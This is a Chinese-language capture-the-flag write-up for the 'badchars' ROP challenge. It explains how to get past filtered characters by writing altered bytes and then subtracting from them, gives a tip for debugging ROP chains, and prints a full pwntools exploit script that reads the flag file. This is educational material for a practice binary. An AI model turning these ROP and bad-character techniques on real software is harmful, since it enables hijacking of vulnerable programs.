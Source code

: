 # 5. badchars

这道题的pwnme函数中添加了一个检查，不允许出现'x'、'a'、'g'、'.'这4个字符。但是程序中给出了任一地址加减的gadget，我们先写入其他值，然后通过加减将这个值变成我们想要的值就可以了。但是这里需要注意一点：如果在data段的开头——0x601028写入，程序会崩溃。因为我们需要绕过'x'字符，就势必在应该写入x的地方一开始不能写入x。如果在此处写字符串，那么字符'x'的位置应该在0x60102E，但是 **2E正好是'.'的ASCII码，会被强制转换，从而导致ROP失败。** 不过我们还是可以在0x601030写入。

这里提供一个ROP调试的省时小技巧。当我们构造的ROP多次失败时，如果这个ROP是一次注入，那么我们是无法进行调试的。这种情况下我们可以在ROP中间插入一个有反馈的代码段地址，如main函数开头。我们将这个main函数开头插入到ROP的不同位置，从前往后查找，前面的ROP如果正常执行，那么我们可以及时地得到反馈，如果错误则会崩溃，我们就会知道哪一步ROP之前出了错误。如此从前往后，我们就可以找到，到底是哪一步ROP有问题，从而进行修改。

payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./badchars')
elf = ELF('./badchars')

xor_r14r15 = 0x400628
add_r14r15 = 0x40062c
sub_r14r15 = 0x400630
mov_r12r13 = 0x400634
pop_r12r13r14r15 = 0x40069c
pop_r14r15 = 0x4006a0
pop_rdi = 0x4006a3
write_addr = 0x601030

badchars = 'xga.'

payload = b'b' * 40
payload += p64(pop_r12r13r14r15) + b'flbh/tyt' + p64(write_addr) + p64(1) + p64(write_addr + 2)		# a->b g->h .->/ x->y then just -1
payload += p64(mov_r12r13)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 3)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 4)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 6)
payload += p64(sub_r14r15)
payload += p64(pop_rdi) + p64(write_addr)
payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

# 6. fluff

